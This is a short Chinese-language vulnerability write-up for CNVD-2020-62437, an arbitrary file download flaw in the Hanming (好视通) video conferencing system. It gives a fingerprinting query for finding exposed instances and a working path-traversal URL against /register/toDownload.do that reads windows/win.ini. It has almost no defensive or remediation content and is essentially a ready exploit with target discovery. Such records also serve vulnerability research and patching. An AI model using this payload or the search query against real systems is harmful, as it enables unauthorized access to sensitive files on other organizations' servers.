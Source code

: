 # 银澎云计算 好视通视频会议系统 任意文件下载 CNVD-2020-62437

## 漏洞描述

银澎云计算 好视通视频会议系统 存在任意文件下载，攻击者可以通过漏洞获取敏感信息

## 漏洞影响

```
银澎云计算 好视通视频会议系统
```

## 网络测绘

```
app="Hanming-Video-Conferencing"
```

## 漏洞复现

登录页面如下



![](images/202202101930170.png)



漏洞Url为



```plain
https://xxx.xxx.xxx.xxx/register/toDownload.do?fileName=../../../../../../../../../../../../../../windows/win.ini
```



![](images/202202101930402.png)



## 